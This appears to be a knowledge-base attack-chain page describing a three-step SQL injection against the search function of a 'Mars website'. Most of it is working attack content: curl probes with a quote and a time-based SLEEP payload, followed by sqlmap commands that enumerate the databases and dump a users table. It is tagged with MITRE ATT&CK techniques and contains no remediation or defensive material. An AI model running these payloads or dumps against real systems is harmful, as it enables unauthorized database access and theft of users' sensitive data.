

# SQL Injection in Mars Website Search Functionality for Unauthorized Database Access

Multi-stage attack chain demonstrating exploitation of SQL injection in the Mars website's search functionality to access and manipulate the database.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~15 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/sqlmap]]
- Browser or [[commands/curl-send-payload]]

### Target Environment

- Web platform with SQL database backend
- Access to the Mars website search functionality
- No authentication required for search

### Initial Access Requirements

- Public network access to the website
- No prior credentials needed
- Basic knowledge of SQL syntax

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Search Endpoint

procedure: [[procedures/Test-SQL-Injection-in-Search]]

**Objective**: Locate and confirm the search input field vulnerable to SQL injection due to lack of input sanitization.

**Instructions**: Navigate to the Mars website and interact with the search bar. Use [[commands/curl-send-payload]] to send a basic probe:

```bash
curl -X GET "https://mars-website.com/search?q=test'" -v
```

Observe the response for database errors indicating unsanitized input.

**Expected Output**: HTTP response with SQL error messages like "SQL syntax error" or database-specific errors.

**Success Indicators**:
- Error messages revealing database type (e.g., MySQL)
- Response time anomalies or union-based hints

### Step 2: Test for SQL Injection

procedure: [[procedures/Test-SQL-Injection-in-Search]]

**Objective**: Verify SQL injection by injecting payloads that alter query behavior without causing errors.

**Instructions**: Use [[commands/curl-send-payload]] with a time-based or boolean payload:

```bash
curl -X GET "https://mars-website.com/search?q=1' AND SLEEP(5)--" -w "%{time_total}\n"
```

If the request delays by 5 seconds, injection is confirmed.

**Expected Output**: Delayed response confirming blind SQLi, or data leakage in union queries.

**Success Indicators**:
- Response delay matching payload
- Partial data returned in error or success messages

### Step 3: Exploit for Database Access and Exfiltration

procedure: [[procedures/Exploit-SQL-Injection-for-Data-Exfiltration]]

**Objective**: Extract sensitive data from the database or manipulate records.

**Instructions**: Leverage [[tools/sqlmap]] for automated exploitation:

```bash
sqlmap -u "https://mars-website.com/search?q=1" --dbs --batch
```

Follow up with table and data dumping:

```bash
sqlmap -u "https://mars-website.com/search?q=1" -D database_name --tables
sqlmap -u "https://mars-website.com/search?q=1" -D database_name -T users --dump
```

**Expected Output**: List of databases, tables, and dumped records including sensitive user data.

**Success Indicators**:
- Successful enumeration of databases/tables
- Retrieval of confidential information

## Attack Chain Summary

### Key Achievements

1. Confirmed SQL injection in search functionality
2. Identified underlying SQL database structure
3. Exfiltrated sensitive data leading to potential unauthorized access

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Credential Dumping]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Collection]]

---
*Last updated: 2023-10-01T12:00:00Z*
